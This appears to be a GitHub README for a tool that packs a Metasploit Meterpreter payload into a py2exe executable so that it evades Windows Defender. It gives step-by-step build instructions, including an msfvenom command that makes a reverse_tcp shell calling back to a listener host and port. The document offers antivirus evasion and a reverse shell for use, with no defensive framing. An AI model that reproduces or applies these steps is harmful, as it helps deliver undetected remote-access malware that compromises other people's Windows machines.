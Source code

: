 ## AV bypass generator for py2exe

![https://iili.io/0Ef7b2.png](https://iili.io/0Ef7b2.png)

This tool was written to generate .py files for compilation into an .exe file using py2exe. 
Testing has shown that meterpreter coded in this way successfully bypasses static and dynamic analysis of windows defender.
For build the .exe file, you need a Windows machine with Python 2.7 installed and the py2exe module.
Based on [pymemimporter](https://github.com/n1nj4sec/pymemimporter) that allows you to import any .pyd from memory with only pure python code (no .pyd)!

**Instruction**
- Download [python 2.7](https://www.python.org/download/releases/2.7/ )
- Download [py2exe for python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)
- Clone this repository: `git clone https://github.com/n0a/meterpreter-av-bypass`
- Make a payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.180 LPORT=4433 -f exe > shell.exe`
- Generate build files: `./gen.sh shell.exe`
- Copy files from shell direcory to C:\Python27 on Windows machine.
- Run `make.bat`
- Your encoded payload in dist/shell.exe

Video - [view](https://disk.yandex.ru/i/6kx9x58vjP26wQ)

**Для русскоязычной аудитории:** [**https://xakep.ru/2020/12/23/shikata-ga-nai/**](https://xakep.ru/2020/12/23/shikata-ga-nai/)
